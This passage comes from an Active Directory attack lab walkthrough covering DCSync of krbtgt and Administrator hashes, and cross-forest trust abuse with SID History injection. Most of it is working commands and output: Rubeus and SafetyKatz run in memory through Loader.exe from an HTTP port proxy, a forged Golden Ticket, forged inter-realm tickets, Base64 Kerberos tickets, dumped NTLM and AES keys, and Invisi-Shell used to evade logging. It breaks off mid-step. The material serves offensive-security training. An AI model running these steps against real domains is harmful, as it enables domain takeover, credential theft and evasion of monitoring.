  RenewTill             :  5/4/2025 10:14:16 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

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
```

We can copy Base64EncodedTicket, remove unnecessary spaces and newline (if any) and use the ticket with Rubeus on the student VM.

```
C:\Windows\system32> echo %Pwn%

ptt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /ticket: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

[SNIP]

[*] Action: Import Ticket 🎟️
[+] Ticket successfully imported!
```

```
C:\Windows\system32> klist

[SNIP]

Cached Tickets: (1)

#0>     Client: USVENDOR-DC$ 🎭 @ USVENDOR.LOCAL 🏛️
        Server: krbtgt/USVENDOR.LOCAL @ USVENDOR.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 4/28/2025 7:46:48 (local)
        End Time:   4/28/2025 17:46:48 (local)
        Renew Time: 5/4/2025 22:14:16 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

We can now run DCSync attack against `usvendor-dc` using the injected ticket.

```
C:\Windows\system32> echo %Pwn%

lsadump::dcsync

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:usvendor\krbtgt /domain:usvendor.local" "exit"

[SNIP]

mimikatz(commandline) # lsadump::dcsync /user:usvendor\krbtgt /domain:usvendor.local

[SNIP]

SAM Username         : krbtgt 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/12/2019 10:09:18 PM
Object Security ID   : S-1-5-21-2028025102-2511683425-2951839092-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 335caf1a29240a5dd318f79b6deaf03f 🔑
    ntlm- 0: 335caf1a29240a5dd318f79b6deaf03f
    lm  - 0: f3e8466294404a3eef79097e975bda3b

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : USVENDOR.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 2b0b8bf77286337369f38d1d72d3705fda18496989ab1133b401821684127a79 🔑

[SNIP]
```

```
C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:usvendor\administrator /domain:usvendor.local" "exit"

[SNIP]

mimikatz(commandline) # lsadump::dcsync /user:usvendor\administrator /domain:usvendor.local

[SNIP]

SAM Username         : Administrator 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/12/2019 9:59:34 PM
Object Security ID   : S-1-5-21-2028025102-2511683425-2951839092-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 67ad980708fe40f846c9397ec051020b

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : USVENDOR-DCAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 17718f4898a31b97f7cc3437b148cbc1ac3ce7c827e8cfef7ccc1332887bb099 🔑

[SNIP]
```

---
---

## Cross-Forest Trust Account Abuse & SID History Injection

### Lab: Hands-On #25

#### Tasks

Using the DA access to `eu.local`:
- Access `eushare` on `euvendor-dc`
- Access `euvendor-net` host using PowerShell Remoting

#### Attack Path Steps

- Using the DA access to `eu.local`, access `eushare` on `euvendor-dc`
	1. Use DA access on `eu.local` to create a Golden Ticket and obtain a shell on `eu-dc`
	2. Using DCSync, extract the interdomain trust account credentials for the trust between `eu.local` and `euvendor.local`
	3. Forge an inter-realm TGS between `eu.local` and `euvendor.local` using the extracted trust account credentials
	4. Use this TGS to request a TGS for CIFS on `euvendor.local` and access to `\\euvendor-dc\eushare`

- Using the DA access to `eu.local`, access `euvendor-net` host using PowerShell Remoting
	1. Enumerate groups in `euvendor.local` with SID > 1000  to avoid SID Filtering and identify the `EUAdmins` group
	2. Forge a new inter-realm TGS including the SID History of `EUAdmins` to impersonate that group across the trust
	3. Use this TGS to request a TGS for `HTTP` on the target host `euvendor-net.euvendor.local`
	4. Access the target host using PowerShell Remoting (winrs) 

#### Solution

We have DA access on the `eu.local` forest that has a trust relationship with `euvendor.local`.

Let's use the trust key between `eu.local` and `euvendor.local`.
⭐ We can extract the trust key using a Golden Ticket (or Administrator keys) for `eu.local`.

- Using the DA access to `eu.local`, access `eushare` on `euvendor-dc`

Run the below command from an elevated shell on the student VM to get a command prompt with the privileges of domain administrator on `eu.local` and use DCSync to get the trust keys.

```
C:\Windows\system32> echo %Pwn%

golden

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:Administrator /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /aes256:b3b88f9288b08707eab6d561fefe286c178359bda4d9ed9ea5cb2bd28540075d /ptt

[SNIP]

[*] Action: Build TGT

[SNIP]

[+] Ticket successfully imported!
```

Now, we will copy the `Loader.exe` to run SafetyKatz from memory to extract trust keys.

```
C:\Windows\system32> echo F | xcopy C:\AD\Tools\Loader.exe \\eu-dc.eu.local\C$\Users\Public\Loader.exe /Y

[SNIP]

C:\Windows\system32> winrs -r:eu-dc.eu.local cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Administrator>
🚀

C:\Users\Administrator> set username

USERNAME=Administrator 👤

C:\Users\Administrator> set computername

COMPUTERNAME=EU-DC 🖥️
```

```
C:\Users\Administrator> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.51
```

Copy the generated commands and use it on the winrs session on `eu-dc`.

```
C:\Users\Administrator> echo %Pwn% 

lsadump::dcsync

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "%Pwn% /user:eu\euvendor$ /domain:eu.local" "exit"

[SNIP]

mimikatz(commandline) # lsadump::dcsync /user:eu\euvendor$ /domain:eu.local

[SNIP]

SAM Username         : EUVENDOR$ 👤
Account Type         : 30000002 ( TRUST_ACCOUNT ) 📌
User Account Control : 00000820 ( PASSWD_NOTREQD INTERDOMAIN_TRUST_ACCOUNT )
Account expiration   :
Password last change : 5/1/2025 10:20:21 PM
Object Security ID   : S-1-5-21-3657428294-2017276338-1274645009-1107
Object Relative ID   : 1107

[SNIP]

Credentials:
  Hash NTLM: 7b80c754d894bef79b95b8f03cfc0124 🔑

[SNIP]

Supplemental Credentials:
* Primary:Kerberos-Newer-Keys *
    Default Salt : EU.LOCALkrbtgtEUVENDOR
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f1b53c5810552bd4dcb1a3d3948189dfff62cb45befd6790125e576a670eee07 🔑

[SNIP]
```

Now, forge an inter-realm TGT between `eu.local` and `euvendor.local`.

📌 We need to run the following commands from `eu-dc`.

```
C:\Users\Administrator> echo %Pwn%

silver

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /user:Administrator /ldap /service:krbtgt/eu.local /rc4:7b80c754d894bef79b95b8f03cfc0124 /sid:S-1-5-21-3657428294-2017276338-1274645009 /nowrap

[SNIP]

[*] Action: Build TGS

[SNIP]

[*] base64(ticket.kirbi):

doIFEzCCBQ+gAwIBBaEDAgEWooIEHDCCBBhhggQUMIIEEKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCA9wwggPYoAMCARehAwIBA6KCA8oEggPGo8DdMqiVqzPbDOTgBUmmveO/4hS6vVNKMt+1AUgq2w9ac+SW4BRw7rGf5PlXwSopAn5U2/0GCISnOQVwOtciJND77yU9AFKKhJ2Nw7DZF2yPzcRGXmDEiug5KnWgU5D2YZoleyPgT0aWspBsJG2T5QZpu/u+C4goRFWvlZyaJA3aw/55QV7R3+wUC/OywMwLP2Yh/SmPZcPOpWaylsKcEt0SLUgMfqfB+2A3SzMlGOgni+KRULKAta364w5u0/X52AQAEpEOSn0IU0LFBsWc5IC5I86jwmfweLaPbt1XvsbdkMJRD1q6svMzQppxuZnHSMMrcUed1XPZ2rJSN9VHDmmUPekikPSeAzfkjVYurwGK8fYCkUqrcF1u/vAx5M+hU5vKaJBRSerlD6y+wH2bcKdvedK2zkTcNWgq04qaaoEmM/clVHzMjI6EUErez8ASe4QH081gXgI7PMlRAtuJwEwRzA4lYjCvMp7OwUJZgAtpmXzgEyy63C4PQP6D8RtVnA5QHS5PSJiGbQ2PqOf9FMRjN/g7aIh/H/W9/G1aZM5bkCOU+n6xJlXthYogyv52Yw2RRgy6/8a5yS+S/CCQhtEvCI0SjDUySCWkH0wdaFYteuHObNeyoE4t9Y6YKjXpziMicraQaKuCkPsr0loOi2hRebwdnOaC/wd+j2ge+9yBJKA/Q6YQIcBhE35zH4jiVVwudQjwMTnONPxeOqgQXi3d6eRN2anzkRLIrlN48myNOMDdj0zeMta3Z33ed9nUX+NbXmanOaWhVpgrMPrLgXUxkkGouCqCvu1ehPspfdfZRnEZmLZftbtF+/aaHbM7Ew4BT8AMoz0XNZVLaTgrpYDWkjL+ks+zCsH/8NT5FLbWYKLlegR3baOEp4Mjb9FdDBHXSEdJi9xgS64vCCsA8eghqxBGposML2EpPaRYLtUzL8NmbWT7CkANkkOGjxHgN3fy7LwsCFLB7tEL6frCa9gdxOqu1MITClOe6sjMFwkwrFMizNlTzICUkmLoIVZNk4qS0nOm6tJUwGTu5xae3q+ZePvHZS0ymF0NePGgdLF1zv7WHFW22VVwHULdldjrJG5uYHgpK+rqdzeoExhzdz8sxID04ir5Ckmx1QieB9U1//BduDY+OQQJ2YcOaGUHQJYKELKnUk4b7bkkCcmkhADXtbFVB0Vs8QiHnYhkW46/sEavqJOJ1+XhNkN5XkC+wuBuZa02ur1tkaisUlxiLBGGbmDaHhYd+SUpgM9V2ou/TkCYssObgtajFeBDaJdFvsLMGs2co4HiMIHfoAMCAQCigdcEgdR9gdEwgc6ggcswgcgwgcWgGzAZoAMCARehEgQQA/N4k/ti84ZRwyZrQRWG/6EKGwhFVS5MT0NBTKIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAECgAACkERgPMjAyNTA1MDIxNjAzNTJapREYDzIwMjUwNTAyMTYwMzUyWqYRGA8yMDI1MDUwMzAyMDM1MlqnERgPMjAyNTA1MDkxNjAzNTJaqAobCEVVLkxPQ0FMqR0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbA==
```

So, we have base64 encoded ticket. Let's inject it in our winrs session.

```
C:\Users\Administrator> echo %Pwn%

asktgs

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /service:CIFS/euvendor-dc.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:doIFEzCCBQ+gAwIBBaEDAgEWooIEHDCCBBhhggQUMIIEEKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCA9wwggPYoAMCARehAwIBA6KCA8oEggPGo8DdMqiVqzPbDOTgBUmmveO/4hS6vVNKMt+1AUgq2w9ac+SW4BRw7rGf5PlXwSopAn5U2/0GCISnOQVwOtciJND77yU9AFKKhJ2Nw7DZF2yPzcRGXmDEiug5KnWgU5D2YZoleyPgT0aWspBsJG2T5QZpu/u+C4goRFWvlZyaJA3aw/55QV7R3+wUC/OywMwLP2Yh/SmPZcPOpWaylsKcEt0SLUgMfqfB+2A3SzMlGOgni+KRULKAta364w5u0/X52AQAEpEOSn0IU0LFBsWc5IC5I86jwmfweLaPbt1XvsbdkMJRD1q6svMzQppxuZnHSMMrcUed1XPZ2rJSN9VHDmmUPekikPSeAzfkjVYurwGK8fYCkUqrcF1u/vAx5M+hU5vKaJBRSerlD6y+wH2bcKdvedK2zkTcNWgq04qaaoEmM/clVHzMjI6EUErez8ASe4QH081gXgI7PMlRAtuJwEwRzA4lYjCvMp7OwUJZgAtpmXzgEyy63C4PQP6D8RtVnA5QHS5PSJiGbQ2PqOf9FMRjN/g7aIh/H/W9/G1aZM5bkCOU+n6xJlXthYogyv52Yw2RRgy6/8a5yS+S/CCQhtEvCI0SjDUySCWkH0wdaFYteuHObNeyoE4t9Y6YKjXpziMicraQaKuCkPsr0loOi2hRebwdnOaC/wd+j2ge+9yBJKA/Q6YQIcBhE35zH4jiVVwudQjwMTnONPxeOqgQXi3d6eRN2anzkRLIrlN48myNOMDdj0zeMta3Z33ed9nUX+NbXmanOaWhVpgrMPrLgXUxkkGouCqCvu1ehPspfdfZRnEZmLZftbtF+/aaHbM7Ew4BT8AMoz0XNZVLaTgrpYDWkjL+ks+zCsH/8NT5FLbWYKLlegR3baOEp4Mjb9FdDBHXSEdJi9xgS64vCCsA8eghqxBGposML2EpPaRYLtUzL8NmbWT7CkANkkOGjxHgN3fy7LwsCFLB7tEL6frCa9gdxOqu1MITClOe6sjMFwkwrFMizNlTzICUkmLoIVZNk4qS0nOm6tJUwGTu5xae3q+ZePvHZS0ymF0NePGgdLF1zv7WHFW22VVwHULdldjrJG5uYHgpK+rqdzeoExhzdz8sxID04ir5Ckmx1QieB9U1//BduDY+OQQJ2YcOaGUHQJYKELKnUk4b7bkkCcmkhADXtbFVB0Vs8QiHnYhkW46/sEavqJOJ1+XhNkN5XkC+wuBuZa02ur1tkaisUlxiLBGGbmDaHhYd+SUpgM9V2ou/TkCYssObgtajFeBDaJdFvsLMGs2co4HiMIHfoAMCAQCigdcEgdR9gdEwgc6ggcswgcgwgcWgGzAZoAMCARehEgQQA/N4k/ti84ZRwyZrQRWG/6EKGwhFVS5MT0NBTKIaMBigAwIBAaERMA8bDUFkbWluaXN0cmF0b3KjBwMFAECgAACkERgPMjAyNTA1MDIxNjAzNTJapREYDzIwMjUwNTAyMTYwMzUyWqYRGA8yMDI1MDUwMzAyMDM1MlqnERgPMjAyNTA1MDkxNjAzNTJaqAobCEVVLkxPQ0FMqR0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbA==

[SNIP]

[*] Action: Ask TGS

[SNIP]

  ServiceName              :  CIFS/euvendor-dc.euvendor.local
  ServiceRealm             :  EUVENDOR.LOCAL
  UserName                 :  Administrator
  UserRealm                :  EU.LOCAL
  StartTime                :  5/2/2025 8:22:36 AM
  EndTime                  :  5/2/2025 6:21:34 PM
  RenewTill                :  5/9/2025 8:21:34 AM
  Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Fl4A5DycKoEVMi9H4FRFA7AjQxezrMs1F/wx9/b58FM=
```

Check for the ticket.

```
C:\Users\Administrator> klist

[SNIP]

Cached Tickets: (2)

[SNIP]

#1>     Client: Administrator @ EU.LOCAL
        Server: CIFS/euvendor-dc.euvendor.local @ EUVENDOR.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 5/2/2025 8:22:36 (local)
        End Time:   5/2/2025 18:21:34 (local)
        Renew Time: 5/9/2025 8:21:34 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

So, we have the TGS for CIFS on `euvendor.local`.

We can only access the resources explicitly shared with Domain Admins of `eu.local` as we have the access to `euvendor-dc` as domain admins of `eu.local`.

```
C:\Users\Administrator> dir \\euvendor-dc.euvendor.local\eushare

[SNIP]

 Directory of \\euvendor-dc.euvendor.local\eushare 📁

07/14/2019  06:12 AM    <DIR>          .
07/14/2019  06:12 AM    <DIR>          ..
07/14/2019  06:13 AM                37 shared.txt 📌
               1 File(s)             37 bytes
               2 Dir(s)  10,911,850,496 bytes free

C:\Users\Administrator> type \\euvendor-dc.euvendor.local\eushare\shared.txt

Shared with Domain Admins of eu.local
```

Note that we could use PowerShell Remoting too in place of winrs in the above steps.

- Using the DA access to `eu.local`, access `euvendor-net` host using PowerShell Remoting

Run the below commands on the command prompt where we injected the Golden Ticket for administrator of `eu.local` to copy and run Invisi-Shell.

```
C:\Users\Administrator> exit

C:\Windows\system32> echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\eu-dc.eu.local\C$\Users\Public\InShellProf.dll /Y

[SNIP]

C:\Windows\system32> echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\eu-dc.eu.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y

[SNIP]

C:\Windows\system32> winrs -r:eu-dc.eu.local cmd

Microsoft Windows [Version 10.0.17763.1613]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Administrator> 
🚀

C:\Users\Administrator> set username

USERNAME=Administrator 👤

C:\Users\Administrator> set computername

COMPUTERNAME=EU-DC 🖥️
```

```
C:\Users\Administrator> C:\Users\Public\RunWithRegistryNonAdmin.bat
```

With Invisi-Shell set up on `eu-dc`, we can now use the Active Directory module.
⭐ Since we are on a domain controller, the module will be already present.

Let's check if SIDHistory is enabled for the trust between `eu.local` and `euvendor.local` using the Active Directory module.

```
PS C:\Users\Administrator> Get-ADTrust -Filter *

[SNIP]
```

Check if there are any groups with SID > 1000 in `euvendor.local` that we can impersonate to avoid SID Filtering.

```
PS C:\Users\Administrator> Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local

[SNIP]

DistinguishedName : CN=EUAdmins,CN=Users,DC=euvendor,DC=local
GroupCategory     : Security
GroupScope        : Global
Name              : EUAdmins
ObjectClass       : group
ObjectGUID        : 1dad0633-fcf5-49dc-9431-8b167cf36969 📌
SamAccountName    : euadmins 👥
SID               : S-1-5-21-4066061358-3942393892-617142613-1103 📌

[SNIP]

PS C:\Users\Administrator> exit
```

Let's create an inter-realm ticket between `eu.local` and `euvendor.local`.
We will inject the SID History for the 'EUAdmins' group as that is allowed across the trust.

```
C:\Users\Administrator> echo %Pwn%

silver

C:\Users\Administrator> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /user:Administrator /ldap /service:krbtgt/eu.local /rc4:7b80c754d894bef79b95b8f03cfc0124 /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /nowrap

[SNIP]

[*] Action: Build TGS

[SNIP]

[*] base64(ticket.kirbi):

doIFOzCCBTegAwIBBaEDAgEWooIERDCCBEBhggQ8MIIEOKADAgEFoQobCEVVLkxPQ0FMoh0wG6ADAgECoRQwEhsGa3JidGd0GwhldS5sb2NhbKOCBAQwggQAoAMCARehAwIBA6KCA/IEggPuLjDRULXPSFnSremEXsVfPWoavRx3rMIm+G2ZHNIu1Kwyckvj29DNb+5MNA2FqAAJKVT0crWZfdOGwbW9STmDaXuiEN9cLNTHUVc5eGYjEQwH1yyITUBLuqJ+TxBwYzUJ+pIUISJ0XGaWN8faY8dPKktQnSvXzlvtlRmVRBjmtF5OR0Bvfc1sjhXKaG5TsRU363FZ6s6tu7k9wphUrtL2kRlwcD/bht+NJu7ARS6KHfIVvB3MYPC1F7djyKGuv0Tbd1+OSJ5aXGFibqEjjQyEXBv8TnHRby3+pNCrhdR0xXQUlSf0PwojfAgT4ZCDmlK+Co4LisESCJVvOt7q42AWHzPwOiUFp467voZ7RTdzIT6M6LmL5NI85ywL0ZS4eUWbR8k0yYfBrZEkWA9bVPm3HuhyEqytc+evR1pCIuQDttL3EYU4nfIjbDez44pjoEreiLv4zdFLYBOHDbetEbw76mKtickDjqYT1ka3H/QVLWpVQhd9WWDWHvcZAp7p11LpN2vvQW7r/7WDb9vPem30/yyCbGycoI4GJeMoqnkMXTCy5IA05K3ZDHmgK4AFSNeczFSDkQ3/G5MfKSCLIF7dkzffymCsggd9Qyo340fuNtsfeDLDuOHFZTwS7bNcbUFAwGOZ3q03hoHwIAuxKARlCaEd1TdaWfGbiTp4B82v2bD3ToUWuESnqAGvhDvuQ9exezkBFpOlEWqZG5ZjVfLBH5t9ZU7sAuRfg6mODQCyoJ3KCpAThCC4q5ZzWSEAQiPxIRqSegNoBtmkoiejAcPl7rhJR1iTnnJque7QibiZS852/xV4eakJkh3r/XyYlm4V+o2DAb73jmaq0WMJJmYKYgXacsji+zPuFrMS+lvQXLxawsZ1qElp7Mfc0UMhRLrheGuJN1H1mTijPvdVF+YIuNSUO6zpBxtZgRTdCQHIOAvu+zkkUw77Wl1U3BPkN4tyzozzhphAKRZAop+9y1w/Ewx0QKkMmNbB7fa9Dby+934E7n7NOJ2xpurcnR8xPgLzDeSF+1ynNKmeAl22+D6YZZwMFCBlQDUAGE1R28kiPAldRA61sRlfcar3RY3zZchvv4fNTjHiJF2FZr8d7luErndRIG/S2lDzcz1XJ6i4R9+bZg9UpP8itVez0psqpbeiHpSdK6CLzKnnp0MAOOLoPVCTZmdHPS91d430nG0HMMXXCTo1Ig1tum9PymBIqzrY4kxbIiaxFmAIS/9Ax5mixOoAEQJgpAX3uD8eEtijH6C7Ax9dzAPD9W4UCeB5UOi0ThPtubnoq2XlJkaUezDvOYbLqgQWV0y+YnHXLAPGjYAysRyO4jPnwLfTc8YuF6OB4jCB36ADAgEAooHXBIHUfYHRMIHOoIHLMIHIMIHFoBswGaADAgEXoRIEEKFJBIy2MIh/12//5O8yQAehChsIRVUuTE9DQUyiGjAYoAMCAQGhETAPGw1BZG1pbmlzdHJhdG9yowcDBQBAoAAApBEYDzIwMjUwNTAyMTYxNDE0WqURGA8yMDI1MDUwMjE2MTQxNFqmERgPMjAyNTA1MDMwMjE0MTRapxEYDzIwMjUwNTA5MTYxNDE0WqgKGwhFVS5MT0NBTKkdMBugAwIBAqEUMBIbBmtyYnRndBsIZXUubG9jYWw=

[SNIP]
```

Using the inter-realm TGT that we created above, let's request a TGS for HTTP on `euvendor-net` machine.

```
C:\Users\Administrator> echo %Pwn%

